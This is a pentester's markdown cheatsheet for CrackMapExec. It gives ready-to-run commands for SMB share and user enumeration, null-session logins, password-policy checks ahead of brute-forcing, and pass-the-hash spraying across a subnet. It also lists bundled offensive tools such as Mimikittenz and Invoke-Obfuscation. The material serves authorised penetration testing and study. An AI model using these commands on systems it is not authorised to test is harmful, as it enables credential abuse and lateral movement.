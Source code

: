 # Crackmapexec Cheatsheet
Contains the submodules
-   [Impacket](https://github.com/CoreSecurity/impacket)
-   [Pywinrm](https://github.com/diyan/pywinrm)
-   [Pywerview](https://github.com/the-useless-one/pywerview)
-   [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
-   [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
-   [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
-   [Mimikittenz](https://github.com/putterpanda/mimikittenz)
-   [NetRipper](https://github.com/NytroRST/NetRipper)
-   [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
-   [SessionGopher](https://github.com/fireeye/SessionGopher)
-   [Mimipenguin](https://github.com/huntergregal/mimipenguin)


## Connecting
```bash
crackmapexec smb $domain
crackmapexec smb $IP $IP-2
crackmapexec smb $IP-Range $IP-Range-More-Specific 
crackmapexec smb $Subnetmask
crackmapexec smb targets.txt
```

## Shares
Similar checklist from Ippsec to match the pentester use case of [[SMB-Recon-Cheatsheet]] `smbclient`, to enumerate specific configuration, but also Pentester are more *"finickity"*:

```bash
crackmapexec smb $IP --shares
crackmapexec smb $IP --shares -u ''
crackmapexec smb $IP --shares -u 'Test'
crackmapexec smb $IP --shares -u 'Test' -p ''
```


#### Null sessions
```bash
crackmapexec smb $IP -u "" up ""
```

With Null sessions Windows System that upgraded from 2003, anonymous authenication to grab password policy:
```bash
crackmapexec smb $IP -u '' -p '' --pass-pol
```
Account lockout threshold: 0 -> bruteforcing with [[Password-Attacks]] 

```bash
crackmapexec smb $IP  -u <user> -p <password>
```

## Spraying
#### Pass the hash against a subnet
```bash
# The LMHASH does not actually matter
crackmapexec smb $Subnetmask -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb $Subnetmask -u administrator -H 'NTHASH'
```

## Enumeration
#### Users
```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --users
crackmapexec smb $IP -u '$foothold-account' -p '$password' --rid-brute
crackmapexec smb $IP -u '$foothold-account' -p '$password' --groups
crackmapexec smb $IP -u '$foothold-account' -p '$password' --local-users
```

```bash
crackmapexec smb $IP -u '$foothold-account' -p '$password' --shares
crackmapexec smb $IP -u '$foothold-account' -p '$password' --pass-pol

```

## References

[ivoidwarranties](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)
[haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/)
[haax9 -Github](https://github.com/Haax9)
[blackhatethicalhacking](https://www.blackhatethicalhacking.com/tools/crackmapexec/)
[Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)